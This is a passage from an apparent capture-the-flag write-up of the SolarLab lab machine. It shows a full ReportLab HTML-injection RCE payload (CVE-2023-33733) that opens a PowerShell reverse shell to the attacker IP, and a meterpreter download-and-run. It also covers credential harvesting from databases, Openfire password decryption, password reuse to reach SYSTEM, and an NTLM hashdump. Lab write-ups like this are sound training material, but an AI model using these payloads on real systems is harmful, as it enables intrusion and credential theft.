SMB         10.129.14.72    445    SOLARLAB         Documents       READ            
SMB         10.129.14.72    445    SOLARLAB         IPC$            READ            Remote IPC
```

## Accessing ReportHub

To access the `reporting portal` we could either use `Username-Anarchy` and `Hydra` to `brute force` the `login form`, or we could had just tried a few potential `username formats` to got a hit with `BlakeB` and the password `ThisCanB3typedeasily1@`. We chose the second option.

- [http://report.solarlab.htb:6791/](http://report.solarlab.htb:6791/)

| Username | Password               |
| -------- | ---------------------- |
| BlakeB   | ThisCanB3typedeasily1@ |

The `welcome page` greeted us with various options for `employee management` like `Leave Request`, `Training Request`, `Home Office Request` or `Travel Approval`.









For testing purposes we filled out all of them but `Travel Approval` gave us the most freedom in terms on `input` we could insert without getting cut out. We filled out all fields and added a random `.png` file to `generate` the `PDF`.



```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/SolarLab/files]
└─$ exiftool output.pdf 
ExifTool Version Number         : 12.76
File Name                       : output.pdf
Directory                       : .
File Size                       : 224 kB
File Modification Date/Time     : 2024:05:11 16:09:29-04:00
File Access Date/Time           : 2024:05:11 16:09:29-04:00
File Inode Change Date/Time     : 2024:05:11 16:09:32-04:00
File Permissions                : -rwxrwx---
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Author                          : (anonymous)
Create Date                     : 2024:05:11 23:07:40-02:00
Creator                         : (unspecified)
Modify Date                     : 2024:05:11 23:07:40-02:00
Producer                        : ReportLab PDF Library - www.reportlab.com
Subject                         : (unspecified)
Title                           : (anonymous)
Trapped                         : False
Page Mode                       : UseNone
Page Count                      : 1
```

## Foothold

### CVE-2023-33733: Remote Code Execution in ReportHub via HTML Injection

We did some research and found an well matching `vulnerability` which required `HTML Injection` to execute `arbitrary code` on `ReportHub`.

- [https://github.com/Sudistark/BB-Writeups/blob/main/2023/CVE-2023-33733-rce-via-htmli-in-reportlab.md](https://github.com/Sudistark/BB-Writeups/blob/main/2023/CVE-2023-33733-rce-via-htmli-in-reportlab.md)
- [https://security.snyk.io/vuln/SNYK-PYTHON-REPORTLAB-5664897](https://security.snyk.io/vuln/SNYK-PYTHON-REPORTLAB-5664897)
- [https://github.com/c53elyas/CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733)

We created our `proof of concept (PoC)` payload and intercepted the request with `Burp Suite` to send it to the `Repeater`. This way we made sure that it didn't get `cut` in any way.

```c
<font color="[[[getattr(pow, Word('__globals__'))['os'].system('curl 10.10.14.46') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">exploit</font>
```



```c
POST /travelApprovalForm HTTP/1.1
Host: report.solarlab.htb:6791
Content-Length: 17111
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://report.solarlab.htb:6791
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAV0OLYExkJA9aQBD
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://report.solarlab.htb:6791/travelApprovalForm
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJwlzjkOwjAQQNG7uKbwMoudy0SzCtqEVIi7E4kD_K_3KXsecT7L9j6ueJT95WUr1eswFASKld0CIRqbT2QX7Bikw5w7NZAU8xiLKipRM0YhtUmghiAcdToIamOQNVgTXSnVaktYypgL5M6FHfJ-65Dao3q5IdcZx1_TyvcHHmsw3g.Zj_oxA.0t_KlUtZyPc6ZuCqBsv45NfqnVY
Connection: close

------WebKitFormBoundaryAV0OLYExkJA9aQBD
Content-Disposition: form-data; name="time_interval"

2024-05-18 to 2024-05-25
------WebKitFormBoundaryAV0OLYExkJA9aQBD
Content-Disposition: form-data; name="travel_request"

<font color="[[[getattr(pow, Word('__globals__'))['os'].system('curl 10.10.14.46') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">exploit</font>
------WebKitFormBoundaryAV0OLYExkJA9aQBD
Content-Disposition: form-data; name="signature"; filename="nyan.png"
Content-Type: image/png

PNG
<--- CUT FOR BREVITY --->
------WebKitFormBoundaryAV0OLYExkJA9aQBD
Content-Disposition: form-data; name="user_input"

<p>asdf</p>
------WebKitFormBoundaryAV0OLYExkJA9aQBD--

```

We send the modified request from `Repeater` to get an instant `callback`.



```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/SolarLab/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.14.72 - - [11/May/2024 17:59:13] "GET / HTTP/1.1" 200 -
```

After a successful first try we entered a `reverse shell` payload (`PowerShell #3 (Base64)`) to get `foothold` on the box and to grab the `user.txt`.

- [https://revshells.com](https://revshells.com)

```c
<font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANAA2ACIALAA5ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">exploit</font>
```

```c
POST /travelApprovalForm HTTP/1.1
Host: report.solarlab.htb:6791
Content-Length: 18452
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://report.solarlab.htb:6791
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAV0OLYExkJA9aQBD
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://report.solarlab.htb:6791/travelApprovalForm
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJwlzjkOwjAQQNG7uKbwMoudy0SzCtqEVIi7E4kD_K_3KXsecT7L9j6ueJT95WUr1eswFASKld0CIRqbT2QX7Bikw5w7NZAU8xiLKipRM0YhtUmghiAcdToIamOQNVgTXSnVaktYypgL5M6FHfJ-65Dao3q5IdcZx1_TyvcHHmsw3g.Zj_oxA.0t_KlUtZyPc6ZuCqBsv45NfqnVY
Connection: close

------WebKitFormBoundaryAV0OLYExkJA9aQBD
Content-Disposition: form-data; name="time_interval"

2024-05-18 to 2024-05-25
------WebKitFormBoundaryAV0OLYExkJA9aQBD
Content-Disposition: form-data; name="travel_request"

<font color="[[[getattr(pow, Word('__globals__'))['os'].system('cmd /c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANAA2ACIALAA5ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">exploit</font>
------WebKitFormBoundaryAV0OLYExkJA9aQBD
Content-Disposition: form-data; name="signature"; filename="nyan.png"
Content-Type: image/png

PNG
<--- CUT FOR BREVITY --->
------WebKitFormBoundaryAV0OLYExkJA9aQBD
Content-Disposition: form-data; name="user_input"

<p>asdf</p>
------WebKitFormBoundaryAV0OLYExkJA9aQBD--

```



```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/SolarLab/serve]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.46] from (UNKNOWN) [10.129.14.72] 51641

PS C:\Users\blake\Documents\app>
```

## user.txt

```c
PS C:\Users\blake\Desktop> type user.txt
7911bf525c532eac405f32d9602d2ad7
```

## Persistence

The followings steps were only performed by myself to have a little bit of an backup in case my shell died for whatever reason. For convenience I chose `Metasploit`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/SolarLab/serve]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.46 LPORT=9002 -f exe -o asdf.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: asdf.exe
```

```c
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Metasploit can be configured at startup, see msfconsole 
--help to learn more
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.4.5-dev                           ]
+ -- --=[ 2413 exploits - 1242 auxiliary - 423 post       ]
+ -- --=[ 1468 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler/
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 9002
LPORT => 9002
msf6 exploit(multi/handler) > run
```

```c
PS C:\temp> iwr 10.10.14.46/asdf.exe -o asdf.exe
PS C:\temp> .\asdf.exe
```

```c
[*] Sending stage (201798 bytes) to 10.129.14.72
[*] Meterpreter session 1 opened (10.10.14.46:9002 -> 10.129.14.72:51649) at 2024-05-11 18:08:33 -0400

meterpreter >
```

## Enumeration

During the `enumeration` of `blake` we found out that he was running the `web application` out of his `Document folder`.

```c
meterpreter > dir
Listing: C:\Users\blake\Documents\app
=====================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  4096  dir   2024-05-11 18:03:02 -0400  __pycache__
100666/rw-rw-rw-  1278  fil   2023-11-17 02:59:44 -0500  app.py
040777/rwxrwxrwx  0     dir   2024-05-02 05:30:27 -0400  instance
100666/rw-rw-rw-  315   fil   2023-11-16 07:17:58 -0500  models.py
040777/rwxrwxrwx  0     dir   2024-05-11 17:59:13 -0400  reports
100666/rw-rw-rw-  7790  fil   2023-11-18 11:59:40 -0500  routes.py
040777/rwxrwxrwx  0     dir   2023-11-17 03:01:10 -0500  static
040777/rwxrwxrwx  4096  dir   2023-11-17 03:01:10 -0500  templates
100666/rw-rw-rw-  3352  fil   2024-05-02 11:26:05 -0400  utils.py
```

## Privilege Escalation to openfire

### Password Reuse Part 1

The `instance` folder contained a `users.db` database in which we found some `credentials`.

```c
meterpreter > dir
Listing: C:\Users\blake\Documents\app\instance
==============================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  12288  fil   2024-05-02 05:30:27 -0400  users.db
```

```c
C:\Users\blake\Documents\app\instance>type users.db
type users.db
�!!��+�9tableuseruserCREATE TABLE user (
        id INTEGER NOT NULL, 
        username VARCHAR(50) NOT NULL, 
        password VARCHAR(100) NOT NULL, 
        PRIMARY KEY (id), 
        UNIQUE (username)
����!)alexanderkHotP!fireguard'claudias007poiuytrewq 9blakebThisCanB3typedeasily1@
����!alexanderk
               claudias         blakeb
```

| Username   | Password       |
| ---------- | -------------- |
| alexanderk | HotP!fireguard |

Due to `password reuese` we could `escalate our privileges` to the user `openfire`.

| Username | Password       |
| -------- | -------------- |
| openfire | HotP!fireguard |

- [https://github.com/antonioCoco/RunasCs/releases](https://github.com/antonioCoco/RunasCs/releases)

```c
PS C:\temp> .\RunasCs.exe 'openfire' 'HotP!fireguard' .\asdf.exe
```

```c
[*] Sending stage (201798 bytes) to 10.129.14.72
[*] Meterpreter session 2 opened (10.10.14.46:9002 -> 10.129.14.72:51653) at 2024-05-11 18:14:12 -0400

meterpreter >
```

## Pivoting

While `pivoting` through the user context of `openfire` and it's permissions, we could access `C:\Program Files\Openfire\embedded-db` and read the content of the `openfire.script` file.

```c
C:\Program Files\Openfire\embedded-db>type openfire.script
type openfire.script
SET DATABASE UNIQUE NAME HSQLDB8BDD3B2742
SET DATABASE GC 0
SET DATABASE DEFAULT RESULT MEMORY ROWS 0
SET DATABASE EVENT LOG LEVEL 0
SET DATABASE TRANSACTION CONTROL LOCKS
SET DATABASE DEFAULT ISOLATION LEVEL READ COMMITTED
SET DATABASE TRANSACTION ROLLBACK ON CONFLICT TRUE
SET DATABASE TEXT TABLE DEFAULTS ''
SET DATABASE SQL NAMES FALSE
SET DATABASE SQL REFERENCES FALSE
SET DATABASE SQL SIZE TRUE
SET DATABASE SQL TYPES FALSE
SET DATABASE SQL TDC DELETE TRUE
SET DATABASE SQL TDC UPDATE TRUE
SET DATABASE SQL CONCAT NULLS TRUE
SET DATABASE SQL UNIQUE NULLS TRUE
SET DATABASE SQL CONVERT TRUNCATE TRUE
SET DATABASE SQL AVG SCALE 0
SET DATABASE SQL DOUBLE NAN TRUE
SET FILES WRITE DELAY 1
SET FILES BACKUP INCREMENT TRUE
SET FILES CACHE SIZE 10000
SET FILES CACHE ROWS 50000
SET FILES SCALE 32
SET FILES LOB SCALE 32
SET FILES DEFRAG 0
SET FILES NIO TRUE
SET FILES NIO SIZE 256
SET FILES LOG TRUE
SET FILES LOG SIZE 20
CREATE USER SA PASSWORD DIGEST 'd41d8cd98f00b204e9800998ecf8427e'
ALTER USER SA SET LOCAL TRUE
CREATE SCHEMA PUBLIC AUTHORIZATION DBA
<--- CUT FOR BREVITY --->
GRANT DBA TO SA
SET SCHEMA SYSTEM_LOBS
INSERT INTO BLOCKS VALUES(0,2147483647,0)
SET SCHEMA PUBLIC
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
INSERT INTO OFUSERPROP VALUES('admin','console.rows_per_page','/session-summary.jsp=25')
INSERT INTO OFOFFLINE VALUES('admin',1,'001700223778861',127,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Openfire 4.7.5</body></message>')
INSERT INTO OFOFFLINE VALUES('admin',2,'001700223779069',125,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Search 1.7.4</body></message>')
INSERT INTO OFOFFLINE VALUES('admin',6,'001714131992714',127,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Openfire 4.8.1</body></message>')
INSERT INTO OFOFFLINE VALUES('admin',7,'001714131993136',125,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Search 1.7.4</body></message>')
INSERT INTO OFOFFLINE VALUES('admin',11,'001715023572659',127,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Openfire 4.8.1</body></message>')
INSERT INTO OFOFFLINE VALUES('admin',12,'001715023572956',125,'<message from="solarlab.htb" to="admin@solarlab.htb"><body>A server or plugin update was found: Search 1.7.4</body></message>')
INSERT INTO OFID VALUES(18,1)
INSERT INTO OFID VALUES(19,16)
INSERT INTO OFID VALUES(23,1)
INSERT INTO OFID VALUES(25,3)
INSERT INTO OFID VALUES(26,2)
INSERT INTO OFID VALUES(27,1)
INSERT INTO OFPROPERTY VALUES('cache.MUCService''conference''RoomStatistics.maxLifetime','-1',0,NULL)
INSERT INTO OFPROPERTY VALUES('cache.MUCService''conference''RoomStatistics.size','-1',0,NULL)
INSERT INTO OFPROPERTY VALUES('cache.MUCService''conference''Rooms.maxLifetime','-1',0,NULL)
INSERT INTO OFPROPERTY VALUES('cache.MUCService''conference''Rooms.size','-1',0,NULL)
INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)
INSERT INTO OFPROPERTY VALUES('provider.admin.className','org.jivesoftware.openfire.admin.DefaultAdminProvider',0,NULL)
INSERT INTO OFPROPERTY VALUES('provider.auth.className','org.jivesoftware.openfire.auth.DefaultAuthProvider',0,NULL)
INSERT INTO OFPROPERTY VALUES('provider.group.className','org.jivesoftware.openfire.group.DefaultGroupProvider',0,NULL)
INSERT INTO OFPROPERTY VALUES('provider.lockout.className','org.jivesoftware.openfire.lockout.DefaultLockOutProvider',0,NULL)
INSERT INTO OFPROPERTY VALUES('provider.securityAudit.className','org.jivesoftware.openfire.security.DefaultSecurityAuditProvider',0,NULL)
INSERT INTO OFPROPERTY VALUES('provider.user.className','org.jivesoftware.openfire.user.DefaultUserProvider',0,NULL)
INSERT INTO OFPROPERTY VALUES('provider.vcard.className','org.jivesoftware.openfire.vcard.DefaultVCardProvider',0,NULL)
INSERT INTO OFPROPERTY VALUES('update.lastCheck','1715023572956',0,NULL)
INSERT INTO OFPROPERTY VALUES('xmpp.auth.anonymous','false',0,NULL)
INSERT INTO OFPROPERTY VALUES('xmpp.domain','solarlab.htb',0,NULL)
INSERT INTO OFPROPERTY VALUES('xmpp.proxy.enabled','false',0,NULL)
INSERT INTO OFPROPERTY VALUES('xmpp.socket.ssl.active','true',0,NULL)
INSERT INTO OFVERSION VALUES('openfire',34)
INSERT INTO OFSECURITYAUDITLOG VALUES(1,'admin',1700223751042,'Successful admin console login attempt','solarlab.htb','The user logged in successfully to the admin console from address 127.0.0.1. ')
INSERT INTO OFSECURITYAUDITLOG VALUES(2,'admin',1700223756534,'edited file transfer proxy settings','solarlab.htb','port = 7777\u000ahardcodedAddress = null\u000aenabled = false')
INSERT INTO OFMUCSERVICE VALUES(1,'conference',NULL,0)
INSERT INTO OFPUBSUBNODE VALUES('pubsub','',0,'001700223743445','001700223743445',NULL,0,0,0,0,1,1,1,0,0,'publishers',1,0,'open','','','','solarlab.htb','','English','',NULL,'all',-1)
INSERT INTO OFPUBSUBAFFILIATION VALUES('pubsub','','solarlab.htb','owner')
INSERT INTO OFPUBSUBDEFAULTCONF VALUES('pubsub',0,0,0,0,0,1,1,1,0,0,'publishers',1,'open','English',NULL,'all',-1)
INSERT INTO OFPUBSUBDEFAULTCONF VALUES('pubsub',1,1,10485760,0,1,1,1,1,0,1,'publishers',1,'open','English',NULL,'all',-1)
```

The script contained the following `hash` and `key`.

| Hash                                                                                                             |
| ---------------------------------------------------------------------------------------------------------------- |
| becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 |

| Key             |
| --------------- |
| hGXiFzsKaAeYLjn |

## Privilege Escalation to System

### Password Reuse Part 2

One smart individual called `SnoOw` read what was in front of him and went for a `decrypter` t o decrypt the `password` of the user `admin`.

- [https://github.com/c0rdis/openfire_decrypt](https://github.com/c0rdis/openfire_decrypt)

```c
┌──(kali㉿kali)-[/media/…/Machines/SolarLab/files/openfire_decrypt]
└─$ javac OpenFireDecryptPass.java 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

```c
┌──(kali㉿kali)-[/media/…/Machines/SolarLab/files/openfire_decrypt]
└─$ java OpenFireDecryptPass becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 hGXiFzsKaAeYLjn
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
ThisPasswordShouldDo!@ (hex: 005400680069007300500061007300730077006F0072006400530068006F0075006C00640044006F00210040)
```

| Username | Password               |
| -------- | ---------------------- |
| admin    | ThisPasswordShouldDo!@ |

Since we already had an `password reuse` vulnerability and it seemed obvious, we gave it a try and gained a shell as `NT AUTHORITY\SYSTEM`.

```c
PS C:\temp> .\RunasCs.exe 'administrator' 'ThisPasswordShouldDo!@' powershell -r 10.10.14.46:4444
.\RunasCs.exe 'administrator' 'ThisPasswordShouldDo!@' powershell -r 10.10.14.46:4444

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-790e5$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 3476 created in background.
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.46] from (UNKNOWN) [10.129.14.72] 51684
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Windows\system32>
```

## root.txt

```c
PS C:\Users\Administrator\Desktop> type root.txt
type root.txt
ec03e148f9d992d88e568fa068aefad0
```

## Post Exploitation

```c
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1c032ae85d6995c0bb4999ec869d90cf:::
blake:1000:aad3b435b51404eeaad3b435b51404ee:4cf570cdca082077b0e61addac8b7705:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
openfire:1001:aad3b435b51404eeaad3b435b51404ee:a22c1b83fa00c6030969caf37a5e061b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:57da9863751e0fd175f042bc41aec9b2:::
```
